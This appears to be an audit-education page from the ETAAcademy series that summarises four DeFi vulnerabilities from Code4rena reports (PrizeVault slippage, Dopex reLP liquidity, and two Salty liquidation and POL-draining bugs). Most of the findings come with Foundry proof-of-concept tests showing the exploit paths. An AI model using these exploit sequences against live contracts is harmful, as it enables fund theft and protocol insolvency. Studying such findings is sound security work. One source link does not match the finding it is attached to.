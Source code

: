 # ETAAcademy-Adudit: 4. Pool

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>04. Pool</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>pool</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[Medium] Lack of Slippage Protection in withdraw/redeem Functions of the Vault

### Slippage Protection

- Summary: Users in the PrizeVault expect a 1:1 exchange ratio between assets and shares when withdrawing. However, if the underlying yield vault incurs losses, this ratio can decrease. If total assets drop below total debt while a user's withdrawal is pending, they may receive fewer assets than expected, potentially causing losses.

- Impact & Recommendation: The withdraw and redeem functions in the PrizeVault lack slippage protection, potentially leading to user losses if the underlying yield vault experiences losses. To address this, users should be able to specify slippage protection parameters, such as a minimum amount for redemption or a maximum shares input for withdrawal.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-pooltogether#m-04-lack-of-slippage-protection-in-withdrawredeem-functions-of-the-vault) & [Report](https://code4rena.com/reports/2024-03-pooltogether)

  <details><summary>POC</summary>

  ```solidity
    function previewWithdraw(uint256 _assets) public view returns (uint256) {
        uint256 _totalAssets = totalAssets();
        // No withdrawals can occur if the vault controls no assets.
        if (_totalAssets == 0) revert ZeroTotalAssets();
        uint256 totalDebt_ = totalDebt();
        if (_totalAssets >= totalDebt_) {
            return _assets;
        } else {
            // Follows the inverse conversion of `convertToAssets`
            return _assets.mulDiv(totalDebt_, _totalAssets, Math.Rounding.Up);
        }
    }
    function convertToAssets(uint256 _shares) public view returns (uint256) {
        uint256 totalDebt_ = totalDebt();
        uint256 _totalAssets = totalAssets();
        if (_totalAssets >= totalDebt_) {
            return _shares;
        } else {
            // If the vault controls fewer assets than what has been deposited, a share will be worth a
            // proportional amount of the total assets. This can happen due to fees, slippage, or loss
            // of funds in the underlying yield vault.
            return _shares.mulDiv(_totalAssets, totalDebt_, Math.Rounding.Down);
        }
    }
    function totalAssets() public view returns (uint256) {
        return yieldVault.convertToAssets(yieldVault.balanceOf(address(this))) + _asset.balanceOf(address(this));
    }

  ```

  </details>

## 2.[High] ReLPContract wrongfully assumes protocol owns all of the liquidity in the UniswapV2 pool

### Not calculations on the all liquidity

- Summary: The ReLPContract assumes it owns all liquidity in the UniswapV2 pool. When RdpxV2Core calls ReLPContract#reLP, it may pass incorrect amounts or trigger a revert if the protocol doesn't own the majority of LP balance. This is because the calculation assumes protocol owns all RDPX reserves, potentially leading to a denial-of-service if lpToRemove exceeds actual LP balance.

- Impact & Recommendation: Change the logic and base all calculations on the pair balance of `UniV2LiquidityAmo`
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-09-relpcontract-wrongfully-assumes-protocol-owns-all-of-the-liquidity-in-the-uniswapv2-pool) & [Report](https://code4rena.com/reports/2023-08-dopex)

    <details><summary>POC</summary>

  ```solidity
    function testReLpContract() public {
        testV2Amo();
        // set address in reLP contract and grant role
        reLpContract.setAddresses(
            address(rdpx),
            address(weth),
            address(pair),
            address(rdpxV2Core),
            address(rdpxReserveContract),
            address(uniV2LiquidityAMO),
            address(rdpxPriceOracle),
            address(factory),
            address(router)
        );
        reLpContract.grantRole(reLpContract.RDPXV2CORE_ROLE(), address(rdpxV2Core));
        reLpContract.setreLpFactor(9e4);
        // add liquidity
        uniV2LiquidityAMO.addLiquidity(5e18, 1e18, 0, 0);
        uniV2LiquidityAMO.approveContractToSpend(
            address(pair),
            address(reLpContract),
            type(uint256).max
        );
        rdpxV2Core.setIsreLP(true);
        (uint256 reserveA, uint256 reserveB, ) = pair.getReserves();
        weth.mint(address(2), reserveB * 10);
        rdpx.mint(address(2), reserveA * 10);
        vm.startPrank(address(2));
        weth.approve(address(router), reserveB * 10);
        rdpx.approve(address(router), reserveA * 10);
        router.addLiquidity(address(rdpx), address(weth), reserveA * 10, reserveB * 10, 0, 0, address(2), 12731316317831123);
        vm.stopPrank();

        console.log("UniV2Amo balance isn't enough and will underflow");
        uint pairBalance = pair.balanceOf(address(uniV2LiquidityAMO));
        console.log("UniV2Amo LP balance: ", pairBalance);
        vm.expectRevert("ds-math-sub-underflow");
        rdpxV2Core.bond(1 * 1e18, 0, address(this));
    }

  ```

    </details>

## 3.[High] User can evade liquidation by depositing the minimum of tokens and gain time to not be liquidated

### Liquidation by manipulating the user.cooldownExpiration variable

- Summary: The CollateralAndLiquidity contract has a critical vulnerability that lets a user avoid liquidation by manipulating the user.cooldownExpiration variable. By depositing small amounts of tokens, users can increment the cooldownExpiration, causing liquidation attempts to fail. This could lead to system debt if liquidations are avoided.

- Impact & Recommendation: Consider modifying the liquidation function
  <br> 🐬: [Source](https://code4rena.com/reports/2024-01-salty#m-05-absence-of-autonomous-mechanism-for-selling-collateral-assets-in-the-external-market-in-exchange-for-usds-will-cause-undercollateralization-during-market-crashes-and-will-cause-usds-to-depeg) & [Report](https://code4rena.com/reports/2024-01-salty)

  <details><summary>POC</summary>

  ```solidity
  // Filename: src/stable/tests/CollateralAndLiquidity.t.sol:TestCollateral
  // $ forge test --match-test "testUserLiquidationMayBeAvoided" --rpc-url https://yoururl -vv
  //
    function testUserLiquidationMayBeAvoided() public {
        // Liquidatable user can avoid liquidation
        //
        // Have bob deposit so alice can withdraw everything without DUST reserves restriction
        _depositHalfCollateralAndBorrowMax(bob);
        //
        // 1. Alice deposit and borrow the max amount
        // Deposit and borrow for Alice
        _depositHalfCollateralAndBorrowMax(alice);
        // Check if Alice has a position
        assertTrue(_userHasCollateral(alice));
        //
        // 2. Crash the collateral price
        _crashCollateralPrice();
        vm.warp( block.timestamp + 1 days );
        //
        // 3. Alice maliciously front run the liquidation action and deposit a DUST amount
        vm.prank(alice);
        collateralAndLiquidity.depositCollateralAndIncreaseShare(PoolUtils.DUST + 1, PoolUtils.DUST + 1, 0, block.timestamp, false );
        //
        // 4. The function alice liquidation will be reverted by "Must wait for the cooldown to expire"
        vm.expectRevert( "Must wait for the cooldown to expire" );
        collateralAndLiquidity.liquidateUser(alice);
    }

  ```

  </details>

## 4.[High] When borrowers repay USDS, it is sent to the wrong address, allowing anyone to burn Protocol Owned Liquidity and build bad debt for USDS

### Bad debt from liquidations

- Summary: The Liquidizer contract burns USDS collected from users' repayments during upkeep. If there's enough USDS, it's directly burned; otherwise, Protocol Owned Liquidity (POL) is converted to USDS to cover the deficit. However, the usdsThatShouldBeBurned variable is continuously increased without increasing the Liquidizer balance, forcing it to sell POL to cover the increase. If POL is exhausted, the protocol can't cover bad debt from liquidations, negatively impacting the USDS price.

- Impact & Recommendation: An attacker can exploit this by borrowing and repaying multiple times to exhaust POL or gradually over time as users repay their USDS. Therefore consider to Send the repaid USDS to the Liquidizer.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-01-salty#h-06-when-borrowers-repay-usds-it-is-sent-to-the-wrong-address-allowing-anyone-to-burn-protocol-owned-liquidity-and-build-bad-debt-for-usds) & [Report](https://code4rena.com/reports/2024-01-salty)

  <details><summary>POC</summary>

  ```solidity

      function testBurnPOL() public {
        // setup
        vm.prank(address(collateralAndLiquidity));
  	usds.mintTo(address(dao), 20000 ether);
  	vm.prank(address(teamVestingWallet));
  	salt.transfer(address(dao), 10000 ether);
  	vm.prank(DEPLOYER);
  	dai.transfer(address(dao), 10000 ether);
        // create Protocol Owned Liquidity (POL)
        vm.startPrank(address(dao));
  	collateralAndLiquidity.depositLiquidityAndIncreaseShare(salt, usds, 10000 ether, 10000 ether, 0, block.timestamp, false );
  	collateralAndLiquidity.depositLiquidityAndIncreaseShare(dai, usds, 10000 ether, 10000 ether, 0, block.timestamp, false );
  	vm.stopPrank();
        bytes32 poolIDA = PoolUtils._poolID(salt, usds);
  	bytes32 poolIDB = PoolUtils._poolID(dai, usds);
  	assertEq( collateralAndLiquidity.userShareForPool(address(dao), poolIDA), 20000 ether);
  	assertEq( collateralAndLiquidity.userShareForPool(address(dao), poolIDB), 20000 ether);
        // Alice deposits collateral
        vm.startPrank(address(alice));
        wbtc.approve(address(collateralAndLiquidity), type(uint256).max);
        weth.approve(address(collateralAndLiquidity), type(uint256).max);
        collateralAndLiquidity.depositCollateralAndIncreaseShare(wbtc.balanceOf(alice), weth.balanceOf(alice), 0, block.timestamp, true );

        // Alice performs multiple borrows and repayments, increasing the
        // usdsThatShouldBeBurned variable in Liquidizer
        for (uint i; i < 100; i++){
            vm.startPrank(alice);
            uint256 maxUSDS = collateralAndLiquidity.maxBorrowableUSDS(alice);
  	    collateralAndLiquidity.borrowUSDS( maxUSDS );
            uint256 borrowed = collateralAndLiquidity.usdsBorrowedByUsers(alice);
            collateralAndLiquidity.repayUSDS(borrowed);
        }

        vm.startPrank(address(upkeep));
        // perform upkeep multiple times to cover bad debt
        // breaks when POL is exhausted
        for(;;){
            (, uint reserve1) = pools.getPoolReserves(dai, usds);
            if(reserve1 * 99 / 100 < 100) break;
            liquidizer.performUpkeep();
        }
        assertGt(liquidizer.usdsThatShouldBeBurned(), usds.balanceOf(address(liquidizer)));
    }


  ```

  </details>
